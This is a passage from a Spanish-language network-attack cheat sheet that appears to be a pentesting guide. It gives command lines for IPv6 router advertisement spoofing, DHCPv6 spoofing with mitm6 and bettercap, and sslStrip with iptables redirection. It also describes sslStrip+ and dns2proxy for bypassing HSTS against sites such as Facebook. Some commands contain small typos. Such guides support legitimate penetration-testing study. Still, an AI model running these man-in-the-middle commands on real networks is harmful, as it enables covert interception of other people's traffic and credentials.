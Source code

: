 ### IPv6 Router Advertisement Spoofing/Flooding

Algunos sistemas operativos configuran por defecto la puerta de enlace a partir de los paquetes RA enviados en la red. Para declarar al atacante como router IPv6, puedes usar:

```bash
sysctl -w net.ipv6.conf.all.forwarding=1 4
ip route add default via <ROUTER_IPv6> dev wlan0
fake_router6 wlan0 fe80::01/16
```

### Suplantación de DHCP IPv6

Por defecto, algunos sistemas operativos intentan configurar el DNS leyendo un paquete DHCPv6 en la red. Entonces, un atacante podría enviar un paquete DHCPv6 para configurarse a sí mismo como DNS. El DHCP también proporciona una IPv6 a la víctima.

```bash
dhcp6.spoof on
dhcp6.spoof.domains <list of domains>

mitm6
```

### HTTP (página falsa e inyección de código JS)

## Ataques a Internet

### sslStrip

Básicamente, lo que hace este ataque es que, en caso de que el **usuario** intente **acceder** a una página **HTTP** que está **redireccionando** a la versión **HTTPS**. **sslStrip** **mantendrá** una **conexión HTTP con** el **cliente y** una **conexión HTTPS con** el **servidor** para que pueda **esnifar** la conexión en **texto plano**.

```bash
apt-get install sslstrip
sslstrip -w /tmp/sslstrip.log --all - l 10000 -f -k
#iptables --flush
#iptables --flush -t nat
iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 10000
iptables -A INPUT -p tcp --destination-port 10000 -j ACCEPT
```

Más información [aquí](https://www.blackhat.com/presentations/bh-dc-09/Marlinspike/BlackHat-DC-09-Marlinspike-Defeating-SSL.pdf).

### sslStrip+ y dns2proxy para eludir HSTS

La **diferencia** entre **sslStrip+ y dns2proxy** contra **sslStrip** es que **redirigirán** por ejemplo _**www.facebook.com**_ **a** _**wwww.facebook.com**_ (note la **extra** "**w**") y establecerán la **dirección de este dominio como la IP del atacante**. De esta manera, el **cliente** se **conectará** a _**wwww.facebook.com**_ **(el atacante)** pero tras bambalinas **sslstrip+** **mantendrá** la **conexión real** a través de https con **www.facebook.com**.
